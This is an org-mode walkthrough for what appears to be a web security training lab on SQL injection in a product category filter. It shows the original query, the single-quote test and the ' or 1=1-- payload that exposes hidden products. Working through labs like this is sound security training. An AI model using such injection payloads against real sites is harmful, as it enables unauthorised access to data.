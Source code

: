 #+title: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#+description: Mindmap to solve this lab
#+author: Touhidul Shawan

* TABLE OF CONTENTS :toc:
- [[#solution][Solution]]
  - [[#sql-injection-on][SQL Injection on]]
  - [[#query][Query]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#inject-query][Inject Query]]

* Solution

** SQL Injection on
~category~ filter

** Query
#+begin_SRC sql options
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql

** End Goal
+ display details of all products

* Steps
Check for sql injection exists or not by inserting [ ' ] in the last of url.
+ sql injection exist -> give an error || not exist -> no error

** Inject Query
we can test with [ ' or 1=1-- ]
#+begin_SRC sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql
query will be look like
#+begin_SRC sql options
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
#+end_SRC sql
